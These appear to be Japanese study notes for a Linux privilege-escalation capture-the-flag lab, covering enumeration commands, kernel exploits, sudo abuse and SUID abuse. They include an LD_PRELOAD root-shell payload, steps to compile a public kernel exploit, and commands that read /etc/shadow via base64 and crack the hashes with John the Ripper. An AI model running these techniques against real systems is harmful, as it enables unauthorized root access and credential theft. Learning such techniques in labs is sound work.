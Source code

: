 # Linux Privilege Escalation

## 環境

Username: karen  
Password: Password1

## Task3 Enumeration（列挙）

### 情報表示系コマンド

```shell
$ hostname    # ホスト名を表示
$ uname -a    # カーネルの情報を表示
$ cat /proc/version  # カーネルのバージョンに関する情報など
$ cat /etc/issue     # OSに関する情報を表示
$ ps -A       # 実行中のすべてのプロセスを表示
$ ps -axjf    # プロセスツリーを表示
$ ps aux      # すべてのユーザのプロセスを表示(a)、プロセスを起動したユーザを表示(u)、端末に接続されていないプロセスを表示(x)
$ env         # 環境変するを表示
$ sudo -l     # sudoコマンドを使用してユーザが実行できるコマンドを表示
$ id          # ユーザの特権レベルとグループを表示
$ cat /etc/passwd # システム上のユーザ情報一覧
$ history     # コマンドの使用履歴
$ ifconfig    # ネットワークインターフェースに関する情報
$ ip route    # ルーティングテーブルの表示
$ netstat -a  # すべてのListenポートとEstablishされた接続を表示
$ netstat -at # すべてのTCP接続。-uならUPD接続
$ netstat -tp # -p はPIDとサービス名を表示
```

### 検索コマンド

```shell
$ find . -name flag1.txt  # 現在のディレクトリで「flag1.txt」という名前のファイルを見つけます。
$ find / -type d -name config # 「/」の下にある config という名前のディレクトリを見つけます。
$ find / -type f -perm 0777 # 777 パーミッションを持つファイルを検索 (すべてのユーザーが読み取り、書き込み、および実行できるファイル)
$ find / -perm a=x # 実行可能ファイルを見つける
$ find /home -user frank # 「/home」の下にあるユーザー「frank」のすべてのファイルを検索します
$ find / -mtime 10 # 過去 10 日間に変更されたファイルを検索します
$ find / -atime 10 # 過去 10 日間にアクセスされたファイルを検索します
$ find / -cmin -60 # 過去 1 時間 (60 分) 以内に変更されたファイルを検索
$ find / -amin -60 # 過去 1 時間 (60 分) 以内のファイル アクセスを検索
$ find / -size 50M # サイズが 50 MB のファイルを検索
$ find / -perm -u=s -type f 2>/dev/null # SUIDビットガセットされているファイルを検索します。
```

## Task4 Automated Enumeration Tools(自動列挙ツール)

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


## Task5 Privilege Escalation: Kernel Exploits

### カーネルエクスプロイトの手順

1. カーネルのバージョンを特定する
2. ターゲットシステムのカーネルバージョンのエクスプロイトコードを検索して見つける
3. エクスプロイトを実行する

### 情報源

- Google検索
- [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
- LES (Linux Exploit Suggester) などのスクリプトを使用する

### タスク5の質問と解答

[ここ](https://www.exploit-db.com/exploits/37292)にあるコードをコンパイルして実行するとルートになれる

```shell
$ gcc ofs.c -o ofs
$ ./ofs
```
後は find で flag1.txtを探して中身を確認。

## Task6 Sudo

[sudo権限を持つコマンドの使用方法](https://gtfobins.github.io/)

### LD_PRELOADを利用した権限昇格手順

LD_PRELOADは任意のプログラムが共有ライブラリを使用できるようにする機能。

権限昇格手順は以下の通り。
1. LD_PRELOADを確認する(env_keepオプションを利用)
2. 共有オブジェクト(.so拡張子)ファイルとしてコンパイルされたCコードを作成
3. sudo権限と.soファイルを指すLD_PRELOADオプションでプログラムを実行

コード例

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

このコードをshell.cとして保存し、gccで共有オブジェクトとしてコンパイル

```shell
gcc -fPIC -shared -o shell.so shell.c --nostartfiles
```

sudoで実行できるプログラムを実行時に、この共有オブジェクトファイルを使用するように指定する

```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

### タスク6の質問と解答

1. sudo -lの出力を確認すればよい
2. /home/ubuntuにflag2.txtがあるのでcatで見る
3. https://gtfobins.github.io/ でnmapの欄を確認し、sudoでの特権昇格方
法に記載のとおり実行すればよい
4. sudo -l で確認すると/usr/bin/nanoが含まれているので、上記3のURLでnanoの欄を確認し、sudo出の特権昇格方法に記載のとおり実行すればよい

## Task7 Privilege Escalation:SUID

opensslを使用したハッシュパスワードの作成

```shell
$ openssl passwd -l -salt THM password1
$1$THM$WnbwlliCqxFRQepUTCkUT1
```

### タスク7質問と解答

1. cat /etc/passwdの表示を確認
2. 以下の手順で確認
  - findコマンドでSUIDビットが立っているファイルを探す

```shell
find / -type f -perm -04000 -ls 2>/dev/null
```

  - [GTFOBins](https://gtfobins.github.io/#%2Bsuid)で使えそうなコマンドを探すとbase64があったので以下のコマンドを実行

```shell
base64 /etc/shadow | base64 --decode
```

  - /etc/shadowの内容が表示されるので、user2の行をコピペし手元のKali Linuxで、shadow.txtファイルとして保存。
  - /etc/passwdからuser2の行をコピペし手元のKali Linuxで、passwd.txtファイルとして保存。
  - 手元のKali Linuxで以下のコマンドを実行

```shell
unshadow passwd.txt shadow.txt > password.txt
```

  - john the ripperでpassword.txtを解析

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt password.txt
```

3. 以下の手順で確認

  - findでflag3.txtを探す

```shell
find / -name '*flag3.txt' -ls 2>/dev/null
```
  - base64でflag3.txtの内容を確認
  
```shell
base64 /home/ubuntu/flag3.txt | base64 --decode
```